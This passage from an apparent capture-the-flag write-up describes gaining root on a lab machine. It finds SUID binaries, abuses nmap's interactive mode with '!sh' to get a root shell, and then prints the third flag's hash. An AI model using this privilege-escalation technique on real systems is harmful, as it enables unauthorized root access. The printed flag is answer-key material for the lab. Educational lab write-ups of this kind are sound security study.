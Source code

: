 ![GTFO bins nmap/SUID](resources/gtfo_nmap_suid.gif)

Unfortunately, this method didn't work for me. I could have tried a few more times to troubleshoot the issue, but feeling frustrated, I decided to do some further research. That's when I stumbled upon a particularly helpful blog: https://www.adamcouch.co.uk/linux-privilege-escalation-setuid-nmap/

#### Nmap SUID Privilege Escalation

Find nmap with SUID bit set:

```bash
find / -user root -perm -4000 -exec ls -la {} \;
```

Entered nmap interactive mode:

```bash
nmap --interactive
```

Executed shell commands as root:

```bash
nmap> !sh
# id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
```

## Obtaining Third Key

After gaining root privileges I navigated to the /root directory and found `firstboot_done` and `key-3-of-3.txt`:
The `firstboot_done` is a 0kb file. Sort of a congratulations for getting here I suppose : )
You can cat the .txt file for the third key.

**Third key:**
```plaintext
04787ddef27c3dee1ee161b21670b4e4
```
